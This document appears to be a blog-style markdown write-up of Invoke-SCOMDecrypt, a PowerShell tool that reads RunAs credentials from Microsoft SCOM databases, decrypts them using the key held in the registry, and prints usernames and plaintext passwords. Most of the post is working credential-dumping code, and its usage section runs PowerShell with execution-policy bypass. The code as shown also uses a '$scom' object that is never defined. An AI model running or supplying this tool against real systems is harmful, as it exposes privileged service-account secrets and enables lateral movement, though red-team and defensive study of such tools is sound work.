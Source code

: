 ```yaml
---
title: "test TITLE"
date: 2022-09-01 12:00:00 -0000
permalink: test
author: aleks
tags: testing
---
```

# Invoke-SCOMDecrypt

## Introduction ##

This tool is designed to retrieve and decrypt RunAs credentials stored within Microsoft System Center Operations Manager (SCOM) databases.

## Pre-requisites ##

To run the tool you will require administrative privileges on the SCOM server. You will also need to ensure that you have read access to the following registry key:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\MOMBins

You can check manually that you can see the database by gathering the connection details from the following keys:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseServerName
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\System Center\2010\Common\Database\DatabaseName

## Usage ##

To run within the PowerShell console:

    powershell.exe -exec bypass
    . .\Invoke-SCOMDecrypt.ps1
    Invoke-SCOMDecrypt
    ...

## How the script works ##

Pre-requisite check to see if SCOM is installed
```ps1
	
	[string]$installDirectory = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\System Center\2010\Common\Setup").InstallDirectory
	if (Test-Path $installDirectory)
	{
		$Full_Path = [System.IO.Path]::GetFullPath($installDirectory);
		[string]$PATH1 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.Mom.Sdk.SecureStorageManager.dll")
		[System.Reflection.Assembly]::LoadFile($PATH1) | Out-Null
		[string]$PATH2 = [System.IO.Path]::GetFullPath("$Full_Path`Microsoft.EnterpriseManagement.DataAccessLayer.dll")
		[System.Reflection.Assembly]::LoadFile($PATH2) | Out-Null
	}
	else
	{
		Write-Host "[Critical Error] Unable to find installation directory of SCOM" -ForegroundColor Yellow
		return
	}
```
Get SQL information from the registry

```ps1
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\Database" -erroraction stop
		$server = $reg.DatabaseServerName
		$database = $reg.DatabaseName
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to detect SQL server"
		return
	}
	
	Try
	{
		$reg = Get-ItemProperty "HKLM:SOFTWARE\Microsoft\System Center\2010\Common\MOMBins" -erroraction stop
		$key = $reg.Value1
	}
	Catch [System.Management.Automation.ItemNotFoundException]
	{
		Write-Host "[Critical Error] Unable to find key"
		return
	}
```
Boiler plate code to connect to the Database and get the content 

```ps1
	$sqlCommand = "SELECT UserName, Data, Domain FROM dbo.CredentialManagerSecureStorage;"
	$connectionString = "Server=$server;Database=$database;Trusted_Connection=True;"
	$connection = new-object system.data.SqlClient.SQLConnection($connectionString)
	$command = new-object system.data.sqlclient.sqlcommand($sqlCommand, $connection)
	$connection.Open()
	$adapter = New-Object System.Data.sqlclient.sqlDataAdapter $command
	$dataset = New-Object System.Data.DataSet
	$adapter.Fill($dataSet) | Out-Null
	$connection.Close()
```
Now the interesting part to decrypt conent from Microsoft.EnterpriseManagement.Security.SecureStorageManager

```ps1
	for ($i = 0; $i -lt $dataset.Tables[0].Rows.Count; $i++)
	{
		if ($dataset.Tables[0].Rows[$i].Data -ne [System.DBNull]::Value -and $dataset.Tables[0].Rows[$i].Username -ne [System.DBNull]::Value)
		{
			$user = $dataset.Tables[0].Rows[$i].Username
			$passw = [System.Text.Encoding]::UTF8.GetString($scom.Decrypt($dataset.Tables[0].Rows[$i].Data))
			
			# Cleans up the spaces in the password
			$truePass = ""
			for ($j = 0; $j -lt $passw.Length; $j++)
			{
				if ($j % 2 -eq 0)
				{
					$truePass += $passw[$j]
				}
			}
			
			if ($domain -notlike "")
			{
				Write-Host "Username: $domain\$user"
				Write-Host "Password: $truePass"
			}
			else
			{
				Write-Host "Username: $user"
				Write-Host "Password: $truePass"
			}
			Write-Host " "
		}
	}
```

